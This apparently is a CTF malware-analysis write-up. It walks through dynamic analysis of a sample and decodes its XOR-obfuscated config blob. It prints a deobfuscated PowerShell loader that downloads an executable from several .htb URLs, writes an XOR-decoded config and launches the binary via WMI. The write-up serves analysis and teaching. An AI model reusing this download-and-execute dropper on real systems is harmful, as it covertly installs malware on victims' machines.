




*(how is ts easy :()*

## Dynamic analysis
- Running this inside any.run shows it is indeed a malicious program and runs powershell hiddenly
- 
- Let's grab the command it ran and put it in cyberchef s.t. we can decode this base64 with null bytes removed
- 
- Interestingly, this catches my eye, so we know that the script xors with `0xdf` but we don't know what is xored
    - 
- I asked AI assistants to deobfuscate this messy script:
```powershell
# 1. Setup working directory for the payload
$dirType = [System.IO.Directory]
$targetDir = "$HOME\Jrb\evk4n\Dp\Ccwr_2h"
$dirType::CreateDirectory($targetDir)

# 2. Enforce TLS 1.2 for secure connections
[System.Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

# 3. Define local destination paths for the binary and config
$binaryPath = "$targetDir\Ale7g_8.exe"
$configPath = "$targetDir\Ale7g_8.conf"

# 4. Initialize WebClient
$webClient = New-Object System.Net.WebClient

# 5. Reconstructed list of target URLs (pointing to internal .htb testing environments)
$urls = @(
    "http://dagi-industrial.htb/wsjs/wdaprofi.htb/wdata4/WgWjTV/https://dgraniegiare.htb/wp-admin/tV/https://www.outspokenvisions.htb/wp-includes/aWoM/@http://mobsouk.htb/wp-includes/UY30R/@http://biglaughs.htb/smallpotatoes/Y/@https://nglogistics.htb/adminer/W3mkB"
)

# Base byte array used for configuration generation
$byteArray = @(
    182, 187, 229, 146, 231, 177, 151, 149, 166, 186, 141, 228, 182, 177, 
    171, 229, 236, 239, 239, 239, 228, 181, 182, 171, 229, 234, 239, 239, 
    228, 185, 179, 190, 184, 229, 151, 139, 157, 164, 235, 177, 239, 171, 
    183, 236, 141, 128, 187, 235, 134, 128, 158, 177, 176, 139, 183, 154, 
    173, 128, 175, 151, 238, 140, 183, 162, 228, 170, 173, 179, 229
)

# 6. Iterate through URLs, download payload, validate size, and execute
foreach ($url in $urls) {
    try {
        $webClient.DownloadFile($url, $binaryPath)
        
        # Verify file size threshold before processing
        if ((Get-Item $binaryPath).Length -ge 45199) {
            
            # Apply XOR transformation (0xdf) to the byte array
            $processedBytes = foreach ($b in $byteArray) {
                [byte]$b -bxor 0xdf
            }
            $processedBytes += 228
            
            # Convert bytes to Base64 and save as a configuration file
            $base64Config = [Convert]::ToBase64String($processedBytes)
            $base64Config | Out-File $configPath
            
            # Execute the dropped binary via WMI Win32_Process
            ([wmiclass]"win32_process").Create($binaryPath)
            break
        }
    } catch {
        # Suppress errors and attempt the next endpoint if available
    }
}
```

- This seems useful now, we just have to xor `0xdf` with the byte arrays and output it as base64 then decode
- Thus we open Powershell ISE and write this script in
```powershell
$byteArray = @(
    182, 187, 229, 146, 231, 177, 151, 149, 166, 186, 141, 228, 182, 177, 
    171, 229, 236, 239, 239, 239, 228, 181, 182, 171, 229, 234, 239, 239, 
    228, 185, 179, 190, 184, 229, 151, 139, 157, 164, 235, 177, 239, 171, 
    183, 236, 141, 128, 187, 235, 134, 128, 158, 177, 176, 139, 183, 154, 
    173, 128, 175, 151, 238, 140, 183, 162, 228, 170, 173, 179, 229
)

$processedBytes = foreach ($b in $byteArray) {
                [byte]$b -bxor 0xdf
}    
$processedBytes += 228
$base64Config = [Convert]::ToBase64String($processedBytes)

Write-Host $base64Config

```
- Let's decode this:
    - 
